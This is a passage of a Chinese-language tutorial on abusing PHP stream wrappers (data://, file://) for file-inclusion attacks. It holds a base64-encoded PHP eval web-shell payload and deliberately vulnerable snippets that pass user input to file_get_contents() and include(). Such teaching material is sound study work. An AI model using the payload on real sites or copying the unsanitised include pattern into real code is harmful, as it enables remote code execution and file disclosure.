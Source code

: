 ```content=xPD9waHAgZXZhbCgkX1BPU1RbJ2hhY2snXSk7Pz4=```


#### data://

自PHP>=5.2.0起，可以使用data://数据流封装器，以传递相应格式的数据。通常可以用来执行PHP代码。一般需要用到`base64编码`传输

实例：

```
<?php
$file = $_GET['text'];
$content = file_get_contents($file,'r');
echo $content;
?>
```

```?text=data://text/plain;base64,SGVsbG8gV29ybGQhIQ==```

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220510163631.png)

可以用来控制file_get_contents()的返回值





#### file://协议

**条件：**

* allow_url_fope:off/on
* allow_url_include:off/on

file协议用于访问本地文件系统，且不收allow_url_fopen和allow_url_incldue的限制

**用法：**

```
/path/to/file.ext
relative/path/to/file.ext
fileInCwd.ext
C:/path/to/winfile.ext
C:\path\to\winfile.ext
\\smbserver\share\path\to\winfile.ext
file:///path/to/file.ext
```

实例：

test.php

```php
<?php
$file = $_GET['file'];
echo include($file);
?>
```
